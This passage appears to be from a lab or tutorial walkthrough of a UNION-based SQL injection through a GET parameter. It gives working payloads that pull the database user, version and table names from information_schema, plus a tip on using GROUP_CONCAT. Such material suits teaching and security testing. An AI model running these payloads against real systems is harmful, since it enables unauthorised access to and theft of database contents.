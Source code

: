 ### We dont know what other information we can gather here, so we need to get a list of the tables in this database. In order to get this list, we search for

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(table_name, '\n') FROM information_schema.tables), 6, 7-- -`

### Note: You must use GROUP_CONCAT or else your subquery will return more than one row, which will raise an error when the output tries to fit into a one row size space.

![Alt text](images/SQLI_GET/Dumb-tables.png)

### While this query displays many tables, none of them are low level enough to be useful to us. This is where we implement a WHERE clause ontop of our search to search for tables that are table_type: 'BASE TABLE'

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(table_name, '\n') FROM information_schema.tables WHERE table_type='BASE TABLE'), 6, 7-- -`
